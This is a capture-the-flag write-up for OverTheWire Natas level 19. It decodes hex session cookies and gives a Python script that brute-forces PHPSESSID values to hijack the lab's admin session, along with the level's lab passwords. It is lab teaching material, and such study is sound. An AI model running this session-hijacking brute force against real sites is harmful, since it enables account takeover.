 # Level 19

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas19.natas.labs.overthewire.org](http://natas19.natas.labs.overthewire.org)
- username: `natas19`
- password: `8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s`

## Solution

![start](./start.jpg)

`This page uses mostly the same code as the previous level, but session IDs are no longer sequential...`. Let's try to login and check our cookie:

![login](./login.jpg)

The cookie value is `3435302d61`. Hm, looks like hex. Let's use [CyberChef](https://gchq.github.io/CyberChef/) to decode it:

![chef](./chef.jpg)

And indeed! The format probably will be `{number_from_1_to_640}-a`. But with some trial and errors I understood that the format will be `{number_from_1_to_640}-admin`, so we can rewrite the python script to bruteforce it:

```py
import requests

# Base URL
url = 'http://natas19.natas.labs.overthewire.org/'

# Function to make a POST request with a specific PHPSESSID
def send_post_with_session_id(session_id):
    # Cookies dictionary
    cookies = {'PHPSESSID': str(session_id)}
    
    headers = {
        'Authorization': 'Basic bmF0YXMxOTo4TE1KRWhLRmJNS0lMMm14UUtqdjBhRURkazd6cFQwcw==',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7',
        'Connection': 'close',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://natas19.natas.labs.overthewire.org',
        'Referer': 'http://natas19.natas.labs.overthewire.org/',
        'Upgrade-Insecure-Requests': '1'
    }
    
    # Data payload for the POST request
    data = {'username': 'admin'} 

    # Make the POST request with the specified session ID
    response = requests.post(url, headers=headers, cookies=cookies, data=data)
    
    if not "You are logged in as a regular user" in response.text:
        print("Admin's PHPSESSID is " + str(session_id))
        return True

# Loop through session IDs from 1 to 640
for session_id in range(1, 641):
    session_str = f"{session_id}-admin"
    session_bytes = session_str.encode('utf-8')
    hex_representation = session_bytes.hex()
    if send_post_with_session_id(hex_representation):
        break
```

Output: `Admin's PHPSESSID is 3238312d61646d696e`

Let's change our cookie to this value:

![pass](./pass.jpg)

## Password

`natas20`:`guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH `

*Created by [bu19akov](https://github.com/bu19akov)*